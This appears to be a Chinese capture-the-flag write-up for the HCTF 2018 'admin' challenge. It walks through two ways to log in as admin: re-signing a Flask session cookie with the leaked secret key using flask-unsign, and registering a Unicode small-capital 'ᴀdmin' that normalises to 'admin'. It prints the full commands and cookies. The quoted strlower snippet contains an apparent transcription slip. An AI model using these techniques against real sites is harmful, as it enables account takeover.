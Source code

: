 # \[HCTF 2018]admin

## \[HCTF 2018]admin

## 考点

* flask session伪造
* Unicode欺骗

## wp

### 第一种做法

注册登录后，在change password处给了源码

![](<../../.gitbook/assets/image (1) (1).png>)

打开可以看到是flask的源码，结合题目，可以判断要伪造admin。在config.py中找到`SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'`

然后就可以使用flask-unsign了

```
flask-unsign --decode --cookie .eJxFkMFuwjAQRH-l2jOH2JALEhfkYgVpbYXaidYXREMgcWwqB VAhiH9vWlXtHHekNzvzgO2hr88NzC_9tZ7Att3D_AEv7zAHjJZpaVPihUeJXAmb4rDqXMwTNaiA0t50uYlkcEa-mpIJgcqicRJTMlVCZt05gwyFa5V85WhyjkPFtVAN-ow5UbTKuKgGGu_rgGLjnbQM_apDs_QU6Y5-GXDIUhSrTvFsOmbftQhB-cIrmTEa8k803QKeE6jO_WF7-ejq03-FEm8Uv-NHVDm-I3JGPEtVtAmaTaPFPmhxnCpTzbRARiUyly9-cG3cHes_EpXszf46p10cDdiNgglcz3X_MxuwBJ5fW9tqTg.YkqrwA.DOP8oMc0Qa4fnCrwx4twEYRYRvY
```

得到的内容为

```
{'_fresh': True, '_id': b'2e58e9cec0c645931dfd473e0e19dfa38b77a9eaeadc9a74a2de3506b4a614637683a225d5b56f76632e04cde521d10cbf220e32901d7b7fd289e65c4b5c4019', 'csrf_token': b'1c1bfb4f21bdd45cb96e414a87e887578835ac5e', 'image': b'amRQ', 'name': 'aaaa', 'user_id': '10'}
```

在用`SECRET_KEY`重新加密

```
flask-unsign --sign --cookie "{'_fresh': True, '_id': b'2e58e9cec0c645931dfd473e0e19dfa38b77a9eaeadc9a74a2de3506b4a614637683a225d5b56f76632e04cde521d10cbf220e32901d7b7fd289e65c4b5c4019', 'csrf_token': b'1c1bfb4f21bdd45cb96e414a87e887578835ac5e', 'image': b'amRQ', 'name': 'aaaa', 'user_id': '10'}" --secret 'ckj123'
```

得到session，再用这个session访问index即可

```
.eJxFkF9rwjAUxb_KuM8-NNG-CL5IZqhwE-qSlpsXcbXapomDqkwrfvd1Y2yv58Dv_HnA9tDX5wbml_5aT2Db7mH-gJd3mANGy7S0KfHCo0SuhE1xWHUu5okaVEBpb7rcRDI4I19NyYRAZdE4iSmZKiGz7pxBhsK1Sr5yNDnHoeJaqAZ9xpwoWmVcVAON-jqg2HgnLUO_6tAsPUW6o18GHLIUxapTPJuO2XctQlC-8EpmjIb8E023gOcEqnN_2F4-uvr0P6HEG8Xv-BFVjnVEzohnqYo2QbNptNgHLY5TZaqZFsioRObyxQ-ujbtj_Ueikr3ZX-e0i6MBu31sTzCB67nuf34DlsDzC8rTatM.YkqtdA.cL66rcW3NKmN-aZXI_13u1zyH8g
```

### 第二种做法

使用Unicode欺骗。本题在获取参数时使用了自定义的strlower函数，nodeprep.prepare对应的库为[https://github.com/twisted/twisted](https://github.com/twisted/twisted)

```python
def strlower(username):
    pytusername = nodeprep.prepare(username)
    return username
```

nodeprep.prepare函数会把[Latin Letter Small Capital](https://unicode-table.com/en/1D00/)先转为大写再转为小写，即

```
ᴀ -> A -> a
```

那就可以先注册ᴀdmin，再修改密码，再以admin身份登录

## 小结

1. [一题三解之2018HCTF admin](https://www.anquanke.com/post/id/16408)
2. [从一道题深入mysql字符集与比对方法collation](https://skysec.top/2018/03/21/%E4%BB%8E%E4%B8%80%E9%81%93%E9%A2%98%E6%B7%B1%E5%85%A5mysql%E5%AD%97%E7%AC%A6%E9%9B%86%E4%B8%8E%E6%AF%94%E5%AF%B9%E6%96%B9%E6%B3%95collation/)
